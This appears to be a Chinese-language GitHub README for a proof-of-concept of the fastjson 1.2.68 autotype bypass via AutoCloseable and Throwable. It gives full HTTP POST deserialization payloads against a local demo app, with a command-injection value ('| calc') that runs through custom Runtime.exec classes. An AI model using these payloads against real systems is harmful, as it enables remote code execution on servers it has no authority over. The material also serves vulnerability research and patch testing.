 ## fastjson-bypass-autotype-1.2.68
fastjson因为exceptClass期望类的特性导致可以通过AutoCloseable和Throwable绕过autotype。

## 复现
运行`org.chabug.fastjson.DemoApplication`，访问localhost:8082/json

AutoCloseable绕过
```text
POST /json HTTP/1.1
Host: test.local:8082
Connection: close
Content-Type: application/json
Content-Length: 131

{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.ExecCloseable",
  "domain": "y4er.com | calc"
}
```
Throwable绕过
```text
POST /json HTTP/1.1
Host: test.local:8082
Connection: close
Content-Type: application/json
Content-Length: 127

{
  "@type":"java.lang.Exception",
  "@type": "org.chabug.fastjson.exploit.ExecException",
  "domain": "y4er.com | calc"
}
```

## 说明
用到的`org.chabug.fastjson.exploit.ExecException`和`org.chabug.fastjson.exploit.ExecCloseable`都是我自己写的，在其getter中实现了`Runtime.getRuntime().exec()`，真正要利用还是得自己找到可用的gadget。

另外浅蓝师傅、Kingkk师傅以及l1nk3r师傅的文章中已经说的很明白了，走JNDI注入困难，找找写文件什么的还行，**我也还在寻找gadget的过程中，欢迎师傅们加我一起交流**。

## 参考
1. https://github.com/iSafeBlue/fastjson-autotype-bypass-demo
2. https://b1ue.cn/archives/348.html
3. https://b1ue.cn/archives/382.html
4. [浅谈下Fastjson的autotype绕过](https://www.kingkk.com/2020/06/%E6%B5%85%E8%B0%88%E4%B8%8BFastjson%E7%9A%84autotype%E7%BB%95%E8%BF%87/)
5. https://forum.90sec.com/t/topic/1115